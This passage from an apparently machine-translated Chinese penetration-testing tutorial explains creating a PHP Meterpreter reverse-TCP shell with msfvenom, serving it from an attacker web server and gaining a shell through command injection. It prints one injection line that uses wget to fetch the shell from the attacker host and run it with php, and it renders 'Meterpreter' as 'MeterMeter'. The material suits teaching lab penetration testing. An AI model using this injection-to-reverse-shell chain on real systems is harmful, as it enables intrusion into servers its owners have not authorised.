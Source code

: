 1.  使用 msfvenom 工具创建 PHP shell。
2.  将其上载到可从目标访问的 web 服务器上。
3.  在攻击者的机器上的 Metasploit 中设置反向 TCP MeterMeter 会话，等待目标连接。
4.  将 PHP 外壳的 URL 注入应用程序的易受攻击字段，该字段将下载 PHP 外壳并在服务器上运行。
5.  然后，shell 将与等待攻击者机器上的 MeterMeter 会话建立出站 TCP 连接。

### 注

PHP shell 只是一个用 PHP 脚本包装的 shell。

我们首先使用 msfvenom 创建一个 PHP shell。以前，msfpayload 和 msfencode 是 Metasploit 框架中提供的两个工具，用于创建各种格式的编码有效负载。新的 msfvenom 工具将这两个工具的功能集成到一个工具中，这将加快在单个命令行上创建有效负载的过程。有关 msfvenom 及其不同命令行选项的更多信息，请参见[https://www.offensive-security.com/metasploit-unleashed/msfvenom/](https://www.offensive-security.com/metasploit-unleashed/msfvenom/) 。

在我的实验室中，攻击者机器的 IP 地址为`192.168.1.69`，目标机器的 IP 地址为`192.168.1.70`：

![PHP shell and Metasploit](../Images/image01139.jpeg)

`–p`选项指定要使用的有效负载。在本例中，我们使用的是 PHP MeterMeter 负载。MeterMeter 是一种外壳负载，它使用 DLL 注入技术，完全驻留在内存中，不会在磁盘上留下任何封装外形。一旦建立了 MeterMeter 外壳，就可以在目标计算机上通过它运行命令。`reverse_tcp`选项指定 MeterMeter 外壳将创建到攻击者机器的出站连接，称为反向 TCP 连接。这样做是因为当流量从内部流向外部时，防火墙规则通常更为宽松。

使用`LHOST`参数，您需要指定您控制的机器的 IP 地址，即：；攻击者的机器。`LPORT`参数指定 MeterMeter 会话连接的端口。

`–e`选项指定要使用的编码器。在本例中，我们使用的是 base64 编码器。然后使用`–f`选项将有效负载导出到文本文件中。这里，我们选择输出格式为 raw，它将以机器语言导出 shell。

然后，我们需要编辑`phpshell.txt`文件，以包含 PHP 开始和结束标记，从而使服务器端 PHP 脚本引擎能够正确解析该文件：

![PHP shell and Metasploit](../Images/image01140.jpeg)

接下来，我们需要找到一种方法，使这个 PHP shell 可以从目标系统访问。一种简单的方法是将此文件托管在 web 服务器上。Python 允许您仅使用一个命令将文件夹转换为 web 目录。您需要首先将目录更改为保存`phpshell.txt`文件的目录，并使用 Python 提供的 SimpleHTTPServer 库开始通过 web 服务器提供该文件：

![PHP shell and Metasploit](../Images/image01141.jpeg)

工作只完成了一半；我们需要启动并运行 MeterMeter，以便 web 服务器能够连接到攻击者的机器，然后将`phpshell.txt`文件的 URL 插入目标 web 应用程序上的易受攻击的输入字段中。要在 Metasploit 中运行的命令显示在以下屏幕截图中：

![PHP shell and Metasploit](../Images/image01142.jpeg)

在 web 应用程序的易受攻击字段中插入以下命令：

```
;wget http://192.168.1.69/phpshell.txt -O /tmp/phpshell.php;php -f /tmp/phpshell.php

```

我们将`phpshell.txt`文件保存在 tmp 目录中，因为所有用户帐户都有权写入该目录。然后，我们使用`–f`选项执行该文件。在 vulnerable 字段中注入的已完成命令如以下屏幕截图所示：

![PHP shell and Metasploit](../Images/image01143.jpeg)

只要点击提交，您就会在 MeterMeter 屏幕上看到一些活动：

![PHP shell and Metasploit](../Images/image01144.jpeg)
